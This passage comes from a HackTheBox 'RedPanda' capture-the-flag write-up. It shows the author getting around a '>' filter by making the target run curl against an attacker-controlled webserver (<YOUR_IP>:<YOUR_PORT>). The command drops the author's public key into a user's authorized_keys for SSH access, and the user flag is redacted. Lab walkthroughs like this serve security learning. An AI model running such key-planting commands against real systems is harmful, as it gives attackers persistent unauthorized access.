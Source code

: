 ![Attempt to get users](/assets/hackthebox/redpanda/etc_passwd.png)

We got it! We noted that there is a ssh service on the machine. Let's try to add our ssh key woodenk `authorized_keys`. We generate a key with `ssh-keygen`. Now let's upload our public RSA key. The server is filtering `>` symbol, so we cant just forward our input to a file. So, to do this we have to set up a webserver, then execute `curl` on machine with `-o` flag and change file permissions. We have to execute these commands on remote machine:

```zsh
curl http://<YOUR_IP>:<YOUR_PORT>/id_rsa.pub -o /home/woodenk/.ssh/authorized_keys
chmod 600 /home/woodenk/.ssh/authorized_keys
```

If everything is good we are allowed to access the ssh with woodenk user.

```zsh
ssh -i id_rsa woodenk@redpanda
cat user.txt
```

```
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX # EDITED
```

# root.txt

## Exploring

I think HackTheBox developers have made this box not to ssh into it, because the user running the application has more privileges than ssh user, we can check it by `id` command. We will learn why it works like that later:
